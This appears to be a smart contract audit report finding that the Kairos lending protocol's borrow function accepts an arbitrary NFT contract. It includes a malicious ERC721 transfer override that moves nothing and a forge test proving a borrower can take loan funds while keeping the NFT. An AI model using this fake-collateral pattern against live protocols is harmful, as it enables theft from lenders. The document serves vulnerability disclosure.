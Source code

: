 latt1ce

high

# Arbitrary external call leads lost funds

## Summary
In borrow function, there is a transferfrom call to arbitrary nft contract. Malicious users can pass a nft address that don't send nft when transfer. But Kairos still transfer money to user.
## Vulnerability Detail

```solidity 
function borrow(BorrowArg[] calldata args) external {
    for (uint256 i = 0; i < args.length; i++) {
        args[i].nft.implem.transferFrom(msg.sender, address(this), args[i].nft.id);
        useCollateral(args[i].args, msg.sender, args[i].nft);
    }
}
```
## Impact
In forge test, I have created a malicious contract that will not make a real transfer in transferFrom.
```solidity
function _transfer(
    address from,
    address to,
    uint256 tokenId
) internal virtual {
    require(ERC721.ownerOf(tokenId) == from, "ERC721: transfer from incorrect owner");
    require(to != address(0), "ERC721: transfer to the zero address");

    _beforeTokenTransfer(from, to, tokenId, 1);
    _afterTokenTransfer(from, to, tokenId, 1);
}
```

Then , in testSimpleBorrow function, I make a borrow with this malicious nft address and do some assert.

```solidity
vm.prank(BORROWER);
kairos.borrow(borrowArgs);

assertEq(nft.balanceOf(BORROWER), 1);
assertEq(money.balanceOf(signer), 0);
assertEq(money.balanceOf(BORROWER), nbOfLoans * getOfferArg().amount);
assertEq(nft.balanceOf(address(kairos)), 0);
for (uint256 i = 0; i < nbOfLoans; i++) {
    assertEq(nft.ownerOf(i + 1), BORROWER);
}
```
And the test pass, we can see that the nft owner is still BORROWER but BORROWER money increases.
## Code Snippet
https://github.com/sherlock-audit/2023-02-kairos/blob/main/kairos-contracts/src/BorrowFacet.sol#L40
## Tool used

Manual Review

## Recommendation
Borrowing and lending using NFTs allowed in the whitelist. And the whitelist should be control in gov contract.